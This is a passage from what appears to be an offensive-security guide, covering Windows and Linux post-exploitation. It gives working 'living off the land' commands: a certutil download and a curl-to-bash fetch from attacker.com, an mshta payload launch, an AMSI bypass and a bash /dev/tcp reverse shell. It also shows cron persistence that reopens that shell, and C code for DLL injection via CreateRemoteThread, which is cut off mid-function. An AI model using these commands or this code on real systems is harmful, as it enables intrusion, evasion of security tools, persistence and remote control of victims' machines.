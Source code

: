 ```markdown
-   2025-03-15: Public disclosure (90 days)
```

---

## 7. Advanced Post-Exploitation

### Living off the Land (LOL)

**Windows**:

```powershell
# Download file without powershell.exe
certutil -urlcache -f http://attacker.com/payload.exe payload.exe

# Execute payload
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""payload.exe"":close")

# Bypass AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**Linux**:

```bash
# Download and execute in memory
curl http://attacker.com/script.sh | bash

# Reverse shell without nc
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1

# Persistence via cron (no file)
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.5/4444 0>&1'") | crontab -
```

### Process Injection (Windows)

```c
// DLL injection via CreateRemoteThread
#include <windows.h>
#include <stdio.h>

BOOL InjectDLL(DWORD pid, const char *dll_path) {
    HANDLE hProcess, hThread;
    LPVOID pRemoteBuf;
    DWORD dwSize = strlen(dll_path) + 1;

    // Open target process
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) return FALSE;

    // Allocate memory in target
    pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwSize,
                                 MEM_COMMIT, PAGE_READWRITE);

    // Write DLL path
    WriteProcessMemory(hProcess, pRemoteBuf, dll_path, dwSize, NULL);

    // Create remote thread to call LoadLibrary
    hThread = CreateRemoteThread(hProcess, NULL, 0,
                                  (LPTHREAD_START_ROUTINE)LoadLibraryA,
                                  pRemoteBuf, 0, NULL);

```